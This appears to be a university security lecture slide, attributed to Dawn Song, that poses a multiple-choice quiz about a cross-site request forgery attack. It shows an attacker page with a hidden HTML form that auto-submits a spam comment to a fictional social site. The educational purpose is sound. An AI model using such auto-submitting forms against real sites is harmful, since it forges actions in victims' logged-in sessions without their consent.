

# CSRF Attack
The attacker, on attacker.com, creates a page containing the  following HTML:
<form action="http://www.gracebook.com/share.php" method="post"
id="f">
<input type="hidden" name="text" value="SPAM COMMENT"></input>
<script>document.getElementById('f').submit();</script>

What will happen when the user visits the page?
a)	The spam comment will be posted to user’s share feed on gracebook.com  b)
The spam comment will be posted to user’s share feed if the user is currently
logged in on gracebook.com
c)	The spam comment will not be posted to user’s share feed on gracebook.com

Dawn Song